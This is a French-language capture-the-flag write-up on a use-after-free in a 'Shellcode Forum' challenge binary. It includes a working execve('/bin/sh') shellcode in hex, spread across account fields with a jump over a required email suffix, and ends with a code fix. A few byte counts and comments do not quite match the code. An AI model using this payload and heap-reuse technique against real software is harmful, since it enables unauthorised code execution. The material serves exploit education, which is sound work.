

# Write-up: Shellcode Forum - Use-After-Free (UAF)

## Vue d'ensemble

une application "Shellcode Forum" qui permet de sélectionner et d'exécuter des shellcodes prédéfinis, ainsi que de créer des comptes utilisateurs. L'objectif est d'exploiter une vulnérabilité **Use-After-Free (UAF)** pour injecter et exécuter un shellcode personnalisé qui lance un shell.

## Structure des données

Le programme utilise deux pointeurs principaux :
- `ptr` : Pointe vers le shellcode sélectionné (alloué dynamiquement)
- `v23` : Pointe vers les données du compte utilisateur (150 bytes = 0x96)

### Layout de la structure Account

```
Offset | Champ      | Taille
-------|------------|--------
0      | age        | 1 byte
1      | pseudo     | 10 bytes
11     | email      | 20 bytes
31     | password   | 20 bytes
-------|------------|--------
Total: 51 bytes utilisés sur 150 alloués
```

## La vulnérabilité Use-After-Free

### Code vulnérable

```c
if ( strcmp(lineptr, "4") ) // Option 4: Create account
  break;
if ( v23 )
  free(v23);                    // Libère l'ancien compte
v23 = malloc(0x96u);            // Alloue un nouveau compte (150 bytes)

// ... validation des données ...

if ( /* validation échoue */ ) {
  free(v23);                    // Libère le compte
  free(ptr);                    // Libère le shellcode
  v23 = 0;                      // Remet v23 à NULL
}
// MAIS ptr n'est pas remis à NULL !
```

**Le problème** : Lorsque la validation d'un compte échoue, le programme libère à la fois `v23` (le compte) et `ptr` (le shellcode), mais **seul `v23` est remis à NULL**. Le pointeur `ptr` continue de pointer vers la mémoire libérée.

### Fonctionnement de l'exploitation

1. **Sélection du shellcode (option 2)** : 
   - Alloue de la mémoire pour `ptr`
   - Copie un shellcode dedans
   - Rend cette mémoire exécutable avec `mprotect(..., 7)` (RWX)

2. **Premier compte invalide** :
   - Alloue `v23` (150 bytes)
   - Échec de validation (email invalide)
   - `free(v23)` et `free(ptr)` → Les chunks retournent dans le free list
   - `ptr` pointe toujours vers la mémoire libérée

3. **Deuxième compte valide** :
   - `malloc(0x96)` pour le nouveau `v23`
   - **Réutilisation du chunk libéré** : Le heap allocator peut réutiliser le chunk précédemment utilisé par `ptr` !
   - On contrôle maintenant le contenu de l'ancienne zone de `ptr` via les champs du compte

4. **Exécution (option 3)** :
   - `((void (*)(void))ptr)()` exécute ce qui se trouve à l'adresse `ptr`
   - Qui contient maintenant notre shellcode injecté via les données du compte !

## Exploitation

### Stratégie

L'idée est de reconstruire un shellcode `execve("/bin/sh", NULL, NULL)` en répartissant ses instructions sur les différents champs du compte utilisateur :

1. **Pseudo** : Première partie du shellcode
2. **Password** : Partie finale
3. **Email** : Suite du shellcode + JMP pour continuer vers password + `@oteria.fr` (requis)

### Shellcode complet

Le shellcode `execve("/bin/sh")` complet (27 bytes) :
```asm
xor rsi, rsi              ; rsi = NULL
push rsi
movabs rdi, 0x68732f2f6e69622f ; "/bin//sh"
push rdi
push rsp
pop rdi                   ; rdi = "/bin//sh"
push 0x3b                 ; syscall number (execve)
pop rax
cdq                       ; rdx = 0
syscall
```

Hexadécimal : `\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05`

### Répartition du shellcode

#### Phase 1 : Pseudo (10 bytes max)
```python
sh1 = b"\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f"  # 10 bytes
# xor rsi, rsi; push rsi; movabs rdi, 0x6e69622f (début de "/bin//sh")
```

#### Phase 2 : Email (20 bytes max)
L'email doit contenir `@oteria.fr` ET se terminer par `@oteria.fr`, donc on place le shellcode au début :

```python
email_sc = (
    b"\x2f\x73\x68\x57\x54\x5f\x6a\x3b"  # 8 bytes - fin de movabs + reste du shellcode
    b"\xeb\x0c"                           # JMP +12 (sauter "@oteria.fr")
)

email = email_sc + b"@oteria.fr"
```

Instruction `\xeb\x0c` (JMP SHORT +12) saute par-dessus `@oteria.fr` (10 bytes) + padding.

#### Phase 3 : Password (20 bytes max)
Le password est situé **après** l'email dans la mémoire (offset 31), mais il contient la **fin** du shellcode :

```python
password = (
    b"\x90\x90\x90\x90"  # NOPs pour l'alignement
    b"\x58\x99\x0f\x05"  # pop rax; cdq; syscall
)
password = password + b"\x90" * (20 - len(password))
```

### Layout mémoire du compte

```
Offset | Contenu
-------|----------------------------------------------------------
0      | \x48 (age = 72, arbitraire mais > 8)
1-10   | sh1 = \x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f
11-30  | email_sc + "@oteria.fr" = \x2f\x73\x68...\xeb\x0c@oteria.fr
31-50  | password = \x90\x90\x90\x90\x58\x99\x0f\x05...
```

Lors de l'exécution :
1. CPU commence à `ptr` (qui pointe vers offset 1 = pseudo)
2. Exécute `sh1` (10 bytes)
3. Continue vers `email_sc` (offset 11)
4. Exécute la suite du shellcode
5. Rencontre `JMP +12` qui saute `@oteria.fr`
6. Atterrit dans `password`
7. Exécute `pop rax; cdq; syscall`
8. Shell !


## Étapes détaillées de l'attaque

### 1. Sélection du shellcode #2
```
menu(2) → Select shellcode
shellcode id > 2

→ malloc(size) pour ptr
→ mprotect(ptr, size, RWX)  # Rend la zone exécutable !
```

### 2. Premier compte (invalide)
```
menu(4) → Create account
age: 20
pseudo: "AAAAAAAA"
password: "AAAA"
email: "fail@fail.com"  # Ne se termine pas par @oteria.fr

→ malloc(150) pour v23
→ Validation échoue
→ free(v23)
→ free(ptr)  ← ptr est libéré mais le pointeur reste !
```

### 3. Deuxième compte (valide, avec shellcode)
```
menu(4) → Create account
age: 72 (0x48 en hex)
pseudo: sh1 (10 bytes de shellcode)
password: password (fin du shellcode)
email: email_sc + "@oteria.fr"

→ malloc(150) pour v23
→ Le heap allocator peut réutiliser le chunk libéré de ptr !
→ Nos données écrasent l'ancienne zone de ptr
```

### 4. Exécution
```
menu(3) → Exec selected shellcode

→ ((void (*)(void))ptr)()
→ Exécute le code à l'adresse ptr
→ Qui contient maintenant notre shellcode !
→ Shell obtenu
```

## Pourquoi ça fonctionne ?

### Réutilisation de chunk
Quand on fait `free(ptr)` puis `malloc(150)` pour le nouveau compte :
- Le heap allocator peut réutiliser le chunk libéré si les tailles sont compatibles
- Le shellcode #2 fait une certaine taille (probablement proche de 150 bytes)
- Le nouveau malloc(150) récupère le même chunk
- `ptr` pointe toujours vers cette zone, maintenant remplie avec nos données

### mprotect persistant
Le `mprotect()` appliqué lors de la sélection du shellcode rend la page **exécutable**. Cette permission persiste même après le `free()`, tant que la page n'est pas réallouée par le système d'exploitation. Notre payload est donc exécutable !

### Validation de l'email
Le programme vérifie que l'email :
1. Contient `@oteria.fr` (via `strstr`)
2. Se termine par `@oteria.fr` (comparaison de pointeurs)

Notre email `\x2f\x73\x68...\xeb\x0c@oteria.fr` satisfait les deux conditions car `@oteria.fr` est bien présent et à la fin.

## Points clés

- **Use-After-Free** : `ptr` n'est pas remis à NULL après `free(ptr)`
- **Réutilisation de chunk** : Le heap allocator réutilise les chunks libérés
- **mprotect persistant** : Les permissions RWX restent actives sur la page
- **Shellcode fragmenté** : Répartition astucieuse du shellcode sur plusieurs champs
- **JMP pour contournement** : Utilisation de `jmp` pour sauter les données inutiles (`@oteria.fr`)

Pour corriger cette vulnérabilité :

```c
if ( /* validation échoue */ ) {
    free(v23);
    free(ptr);
    v23 = 0;
    ptr = 0;  // ← Ajouter cette ligne !
}

// Et vérifier ptr avant exécution
if ( ptr && ptr_is_valid ) {
    ((void (*)(void))ptr)();
} else {
    puts("no shellcode selected !");
}
```